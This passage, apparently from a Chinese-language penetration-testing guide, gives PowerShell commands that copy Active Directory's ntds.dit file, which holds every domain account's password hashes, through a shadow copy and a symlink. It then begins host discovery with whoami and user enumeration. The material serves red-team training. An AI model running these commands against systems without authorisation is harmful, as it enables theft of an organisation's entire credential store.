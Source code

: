 ## 凭证访问

凭证访问阶段是关于窃取凭证（例如用户名和密码）的。这些凭证稍后可以用来进行横向移动并在其他目标上进行身份验证。

### 导出 ntds.dit 文件

你想要窃取包含所有身份和哈希值的**ntds.dit**文件，这些信息存在于 Active Directory 中。

#### 解决方案

由于**ntds.dit**文件被 Active Directory 不断使用并因此被锁定，你需要找到访问**ntds.dit**的方法。一种方法是创建影像副本，创建符号链接，并从中提取该文件：

```
$ShadowCopy = Invoke-CimMethod -ClassName "Win32_ShadowCopy" -Namespace "root\cimv2" -MethodName "Create" -Arguments @{Volume="C:\"}
$ShadowCopyPath = (Get-CimInstance -ClassName Win32_ShadowCopy | Where-Object { $_.ID -eq $ShadowCopy.ShadowID }).DeviceObject + "\\"
cmd /c mklink /d C:\shadowcopy "$ShadowCopyPath"
```

现在你可以无错误地访问**ntds.dit**文件，并提取它或继续提取身份。在这个示例中，我们将其复制到**C:\tmp**以供进一步使用：

```
> Copy-Item "C:\shadowcopy\Windows\NTDS\ntds.dit" -Destination "C:\tmp"
```

一旦完成此操作，你可以删除符号链接并继续进行渗透测试：

```
> (Get-Item C:\shadowcopy).Delete()
```

## 发现阶段

发现阶段类似于侦察阶段：其目标是收集尽可能多的关于潜在目标的信息。发现阶段通常发生在红队员已获得系统访问权限并规划下一步时。

### 查找当前登录的用户

你想要查找当前登录的用户，并显示他们的用户名和域名（如果是本地账户，则显示计算机名）。

#### 解决方案

为了实现你的目标，你可以使用**whoami**命令：

```
> whoami
```

### 枚举用户（本地和域）

你想要查找当前系统或当前域中存在的用户账户。

#### 解决方案

根据你的目标，有多种方法可以枚举用户。

你可以使用 WMI/CIM 枚举所有用户，无论他们是本地用户还是域用户：
